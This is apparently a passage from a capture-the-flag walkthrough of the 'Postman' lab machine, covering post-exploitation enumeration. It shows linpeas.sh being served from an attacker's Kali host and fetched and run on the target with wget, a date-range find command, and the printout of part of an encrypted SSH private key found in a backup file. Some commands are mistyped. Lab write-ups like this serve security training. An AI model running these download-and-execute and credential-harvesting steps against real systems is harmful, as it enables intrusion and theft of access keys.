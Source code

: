 ## Linpeas.sh
Copy the linpeas.sh to the target via wget hosting the file on the kali via python3 
```bash
python3 -m htt.server

## target system cd > /dev/shm
wget http://<kali-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
![](../../Assets/walktrhough-assets/postman/2025-02-12_3.png)

While waiting for the linpeas to complet let's find out when was user `Matt` logged in.

```bash
find / -newermt 2019-09-10 ! -newermt 2019-09-13 -ls 2>/dev/null
```
### Output
```bash
redis@Postman:/dev/shm$ find / -newermt 2019-09-10 ! -newermt 2019-09-13 2>/dev/null
/opt
/home
/home/Matt
/home/Matt/.bash_history
/var/log/journal/2cb57e052840450f9a54b149b131d24d/system@0005924475c9fb9b-0e787e1275733a5c.journal~
/var/log/journal/2cb57e052840450f9a54b149b131d24d/user-1000.journal
redis@Postman:/dev/shm$ 
```
## SSH to John
```bash
redis@Postman:/opt$ cat id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
```